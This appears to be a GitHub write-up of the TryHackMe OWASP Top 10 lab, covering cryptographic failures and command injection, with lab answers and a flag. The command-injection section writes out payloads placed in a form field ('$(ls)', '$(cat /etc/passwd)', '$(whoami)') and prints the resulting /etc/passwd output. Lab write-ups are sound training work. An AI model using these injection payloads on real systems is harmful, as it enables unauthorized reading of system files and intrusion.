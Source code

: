 # TryHackMe-OWASP-Top-10

## Broken Access Control
Nothing Special was there, read an article about Broken Access Control how it works.

![Broken access control](https://github.com/user-attachments/assets/3e1ec8bf-14cb-453e-a733-fb2e9181475a)

## Cryptographic Failures
This is the web site, i have to find every answer from this web site. Let's dive here.....

![image](https://github.com/user-attachments/assets/f11cb18d-2782-4ed7-8e11-adaeff157450)

To find out first answer we have to look into the web site. They have give us a hint where to look!

![image](https://github.com/user-attachments/assets/b6593812-839f-4ac2-bfc0-d4c08459eb20)

After spending some time i found this:

![image](https://github.com/user-attachments/assets/137f8311-f4c5-46cd-9689-8a5fc66bf692)

"http://10.10.63.235:81/assets/" Assets leads us to our destination and we found the first answer of our questions.

![image](https://github.com/user-attachments/assets/d72fe275-95d4-4295-8be1-0f76070a2d80)

- What is the name of the mentioned directory?
  Ans: /assets
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
  Ans: webapp.db
- Use the supporting material to access the sensitive data. What is the password hash of the admin user?

![image](https://github.com/user-attachments/assets/9ca97d7b-f9d9-4fca-b1e6-8fcbc4b889ad)

- What is the admin's plaintext password?

![image](https://github.com/user-attachments/assets/06e8ab69-803b-4408-b1a8-e1e8fb68c225)

- Log in as the admin. What is the flag?
 Ans: THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## Command Injection

- What strange text file is in the website's root directory?
Use "$(ls)" command on the "Enter your inner cow's moowing"

![image](https://github.com/user-attachments/assets/9a75fffa-1535-44bb-8290-a9f454c8b999)

- How many non-root/non-service/non-daemon users are there?
- Ans: 0
- Command: $(cat /etc/passwd)
 _________________________________________ 
/ root:x:0:0:root:/root:/bin/ash          \
| bin:x:1:1:bin:/bin:/sbin/nologin        |
| daemon:x:2:2:daemon:/sbin:/sbin/nologin |
| adm:x:3:4:adm:/var/adm:/sbin/nologin    |
| lp:x:4:7:lp:/var/spool/lpd:/sbin/nologi |
| n sync:x:5:0:sync:/sbin:/bin/sync       |
| shutdown:x:6:0:shutdown:/sbin:/sbin/shu |
| tdown halt:x:7:0:halt:/sbin:/sbin/halt  |
| mail:x:8:12:mail:/var/mail:/sbin/nologi |
| n                                       |
| news:x:9:13:news:/usr/lib/news:/sbin/no |
| login                                   |
| uucp:x:10:14:uucp:/var/spool/uucppublic |
| :/sbin/nologin                          |
| operator:x:11:0:operator:/root:/sbin/no |
| login                                   |
| man:x:13:15:man:/usr/man:/sbin/nologin  |
| postmaster:x:14:12:postmaster:/var/mail |
| :/sbin/nologin                          |
| cron:x:16:16:cron:/var/spool/cron:/sbin |
| /nologin                                |
| ftp:x:21:21::/var/lib/ftp:/sbin/nologin |
| sshd:x:22:22:sshd:/dev/null:/sbin/nolog |
| in                                      |
| at:x:25:25:at:/var/spool/cron/atjobs:/s |
| bin/nologin                             |
| squid:x:31:31:Squid:/var/cache/squid:/s |
| bin/nologin xfs:x:33:33:X Font          |
| Server:/etc/X11/fs:/sbin/nologin        |
| games:x:35:35:games:/usr/games:/sbin/no |
| login                                   |
| cyrus:x:85:12::/usr/cyrus:/sbin/nologin |
| vpopmail:x:89:89::/var/vpopmail:/sbin/n |
| ologin                                  |
| ntp:x:123:123:NTP:/var/empty:/sbin/nolo |
| gin                                     |
| smmsp:x:209:209:smmsp:/var/spool/mqueue |
| :/sbin/nologin                          |
| guest:x:405:100:guest:/dev/null:/sbin/n |
| ologin                                  |
| nobody:x:65534:65534:nobody:/:/sbin/nol |
| ogin                                    |
| apache:x:100:101:apache:/var/www:/sbin/ |
\ nologin                                 /
 ----------------------------------------- 

- What user is this app running as?
- $(whoami)

![image](https://github.com/user-attachments/assets/32d73958-83ec-4bb8-8dcd-682ff23f034a)

- What is the user's shell set as?
- Command: $(cat /etc/passwd)
- Ans : /sbin/nologin

- What version of Alpine Linux is running?

![image](https://github.com/user-attachments/assets/3aa150f3-d1f4-4769-833a-414f84fc2706)


